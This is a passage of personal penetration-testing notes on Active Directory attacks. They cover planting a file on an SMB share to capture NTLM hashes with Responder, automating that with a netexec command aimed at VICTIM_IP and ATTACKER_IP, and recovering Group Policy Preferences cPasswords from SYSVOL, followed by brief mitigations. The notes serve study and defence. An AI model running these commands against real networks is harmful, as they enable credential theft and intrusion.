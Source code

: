 **==So if we have a responder and the file is triggered then we can capture the hashes.==**

We can rename the file as:
```bash
@test
~test
```
- in order to force the visualization of it in the upper part of the folder


In the fileshare we have:
- ![[Pasted image 20241220144143.png]]


We setup a responder on the attacker machine:
```bash
sudo responder -I wlan0 -dPv
```


At this point when the user navigates the file share we will obtain data:
- ![[Pasted image 20241220144410.png]]



## netexec tool to automatize
`Netexec` **==is an evolution of crackmapexec that can be used to automatize==**:
```bash
netexec smb VICTIM_IP -d DOMAIN -u username -p Password -M slinky -o NAME=filename SERVER=ATTACKER_IP
```

It will create automatically the file into a file share space:
- ![[Pasted image 20241220144719.png]]


# GPP ATTACK
<mark style="background: #FF5582A6;">This is a older attack and it is done on the Group Policy Preferences that allowed admins to create policies using embendded credentials.</mark>

These credentials were encrypted and placed in a "cPassword".
- The key was acidentally released
- It was patched in MS14-025 but it doesn't prevemt previous uses

It still relevant.


So the idea is to have access to `Groups.xml` file in SYSVOL.

In this case we could find in it a cPassword and we can try to crack it:
- ![[Pasted image 20241220145119.png]]


We can also use ==**metasploit to do this type of attack with the module**== `smb_enum_GPP`:
- ![[Pasted image 20241220145327.png]]


**==The idea is to extract XML credentials contianed in clear on the memory.==**
## Mitigation
We can fix it in this way:
- **==Use the patch and update==**
- **==delete the old GPP xml file stored in SYSVOL==**
